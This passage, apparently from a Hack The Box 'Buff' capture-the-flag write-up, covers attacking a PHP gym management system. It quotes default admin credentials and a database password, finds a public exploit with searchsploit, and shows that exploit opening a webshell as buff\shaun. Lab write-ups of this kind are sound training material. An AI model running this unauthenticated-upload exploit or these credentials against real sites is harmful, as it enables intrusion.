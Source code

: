 register.php has a fake 403 page.

Found some default credentials on &copy; site; https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/

```
Admin Login Details
Login Id: gajen@gmail.com
Password: 12345
```
## Downloaded project used to build site

Following this, I [downloaded the project from the original site](https://goo.gl/aTn1rm), to get a better view of the structure and potential vulnerable files.

Also found some `table.sql` file used to build the tables. This exists on target site too. 

```
$mysql_host = "mysql16.000webhost.com";
$mysql_database = "a8743500_secure";
$mysql_user = "a8743500_secure";
$mysql_password = "ipad12345";
```

As we now have PHP access and get spot a vulnerability we could manually exploit this, but before going on this journey, lets see if a vuln already exists.

## Searching for a known vulnerability

Searchsploit can search known vulns that are already on Kali.
An exploit exists in Python.

```shell
kali@kali:~/Desktop/repos/ctf/hack-the-box/buff$ searchsploit gym management
----------------------------- ---------------------------------
 Exploit Title               |  Path
----------------------------- ---------------------------------
Gym Management System 1.0 -  | php/webapps/48506.py
----------------------------- ---------------------------------
```

## Fixing & using exploit

Open & update Python as required. Exploit attacked the `upload.php` file we found earlier.

Fixed version can be found here: [48506-updated.py](48506-updated.py).
Now works with Python3.

After running we get shell.

```
kali@kali:~/Desktop/repos/ctf/hack-the-box/buff$ python3 48506-updated.py  http://127.0.0.1:8081/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> ls -lah
	PNG
�

C:\xampp\htdocs\gym\upload> whoami
	PNG
�
buff\shaun

```
